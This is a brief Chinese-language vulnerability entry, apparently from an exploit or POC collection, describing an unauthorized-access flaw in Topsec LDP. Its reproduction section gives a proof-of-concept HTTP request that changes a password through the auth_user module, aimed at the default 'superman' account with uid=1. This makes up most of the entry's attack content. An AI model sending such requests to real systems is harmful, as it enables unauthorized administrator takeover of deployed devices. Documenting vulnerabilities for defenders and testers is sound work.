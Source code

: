 # 天融信LDP未授权访问漏洞

## 漏洞描述

天融信LDP存在未授权访问漏洞

## 漏洞影响

> [!NOTE]
>
> 天融信LDP

## 漏洞复现

POC为

```
默认用户superman的uid=1
POST /?module-auth_user&action=mod_edit.pwd HTTP/1.1
```

